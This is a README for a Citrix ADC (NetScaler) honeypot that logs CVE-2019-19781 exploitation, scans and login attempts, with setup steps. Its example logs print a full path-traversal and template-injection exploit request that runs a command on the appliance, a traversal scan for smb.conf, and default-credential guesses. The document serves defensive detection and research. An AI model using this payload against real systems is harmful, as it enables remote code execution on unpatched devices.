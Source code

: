 # Citrix ADC (NetScaler) Honeypot
- Detects and logs payloads for CVE-2019-19781 (Shitrix / Citrixmash)
- Logs failed login attempts
- Serves content and headers taken from real appliance in order to increase chance of indexing on search engines (e.g. google, shodan etc.)

![screenshot](https://github.com/x1sec/citrix-honeypot/blob/master/img/screenshot.png)

## Installation

### Precompiled
Precompiled Linux (x64) package available [here](https://github.com/x1sec/citrix-honeypot/releases)

```
mkdir citrix-honeypot
cd citrix-honeypot
wget https://github.com/x1sec/citrix-honeypot/releases/download/v0.02/citrix-honeypot-linux-amd64.tar.gz
tar -xf citrix-honeypot-linux-amd64.tar.gz
```

### go get
If you have a [Go](https://golang.org/) environment ready to go:

```bash
go get github.com/x1sec/citrix-honeypot
```

### Running
Generate self signed certificate:
```
openssl genrsa -out server.key 2048
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

It's easy as:
```bash
./citrix-honeypot
```

The honeypot will listen on both port `80` and `443` (so it must be run as `root` user)

Or to detach and run as a background process:
```
nohup ./citrix-honeypot &
```

## Logs
Results / data is written to the `./log` directory. They are:

`hits.log` - Scanning attempts and exploitation attempts with all data (e.g. headers, post body)

`all.log` - All HTTP requests that are observed hitting the server

`logins.log` - Attempted logins to the web interface

`tlsErrors.log` - Often internet scanners will send invalid data to port `443`. HTTPS errors are logged here.

### Examples

Running [the first public released exploit](https://github.com/projectzeroindia/CVE-2019-19781):
```
$ cat logs/hits.log 
2020/01/23 08:27:55 
-------------------
Exploitation detected ...
src: xxx.xxx.xxx.xxx
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
Content-Length: 181
Content-Type: application/x-www-form-urlencoded
Nsc_nonce: test1337
Nsc_user: /../../../../../../../../../../netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS
User-Agent: curl/7.67.0

url=http://example.com\&title=[%25+template.new({'BLOCK'%3d'exec(\'id | tee /netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS.xml\')%3b'})+%25]\&desc=test\&UI_inuse=RfWeb
```

Scanning attempt:
```
$ cat logs/hits.log 
2020/01/23 08:41:02 
-------------------
Scanning detected ... 
src: xxx.xxx.xxx.xxx
GET /vpn/../vpns/cfg/smb.conf HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
User-Agent: curl/7.67.0
```

Login attempts:
```
$ cat logs/logins.log
2020/01/23 07:26:03 Failed login from xxx.xxx.xxx.xxx user:nsroot pass:nsroot
2020/01/23 08:26:03 Failed login from xxx.xxx.xxx.xxx user:admin pass:admin
```
